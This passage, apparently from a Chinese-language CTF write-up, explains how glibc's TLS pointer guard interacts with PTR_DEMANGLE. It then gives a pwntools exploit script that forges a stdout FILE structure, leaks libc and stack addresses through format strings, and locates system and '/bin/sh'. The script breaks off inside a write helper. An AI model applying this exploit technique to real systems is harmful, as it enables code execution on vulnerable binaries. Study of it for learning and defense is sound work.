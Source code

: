 canary 為 fs+0x28，而 guard 在 canary 下方 (`fs:[0x30]`)，為隨機數。Struct 以及 macro:

```c
typedef struct
{
  dtv_t *dtv;
  uintptr_t pointer_guard;
} tcbhead_t;

#define THREAD_SET_POINTER_GUARD(value)
#define THREAD_COPY_POINTER_GUARD(descr)
```

所以要控制 `PTR_DEMANGLE` 的符合我們預期，則需要 leak 出 guard 或是改寫 guard，因此才會需要 tls address。最後 exploit 如下:

```python
from pwn import *

r = process('./B', env={"LD_PRELOAD": "./libc-2.27.so"})
r.recvuntil('location to ')
buf = int(r.recvline()[:-1], 16)
info(f'buf: {hex(buf)}')

# data = buf-0x10
#### fake stdout FILE struct
#### use vfprintf -> _IO_new_file_xsputn to overwrite flags2
r.recvuntil('!\n')
stdout_offset = buf + 0x100
fake_stdout = p64(0xfbad2284 | 0x8000) # 0x8000 _IO_USER_LOCK
fake_stdout += p64(0)*3 # read ptr, end, base
fake_stdout += p64(stdout_offset + 0x74) # write base, avoid allocate
fake_stdout += p64(stdout_offset + 0x74) # write ptr
fake_stdout += p64(stdout_offset + 0x74 + 6) # write end
# _IO_write_ptr == _IO_write_end
# must > 6 ==> xxxx0x
fake_stdout = fake_stdout.ljust(0x70, b'\x00')
fake_stdout += p32(1) # fileno
fake_stdout = fake_stdout.ljust(0xd8, b'\x00')


##### leak libc
fmt = b"xxxx%72$p"
payload = fmt.ljust(0x10, b'\x00') + p64(stdout_offset)
payload = payload.ljust(0x100, b'\x00')
payload += fake_stdout
r.sendline(payload)
r.recvuntil('\n')
libc = int(r.recv(12), 16) - 0x21b97
info(f'libc: {hex(libc)}')
binsh = libc + 0x1B3E9A
_system = libc + 0x4f440

##### leak stack
fmt = b"xxxx%74$p"
payload = fmt.ljust(0x10, b'\x00') + p64(stdout_offset)
payload = payload.ljust(0x100, b'\x00')
payload += fake_stdout
r.sendline(payload)
r.recvuntil('\n')
stack = int(r.recv(12), 16)
info(f'stack: {hex(stack)}')

io_check = 0x8A150
def write_to(addr, val):
    fmt = val
```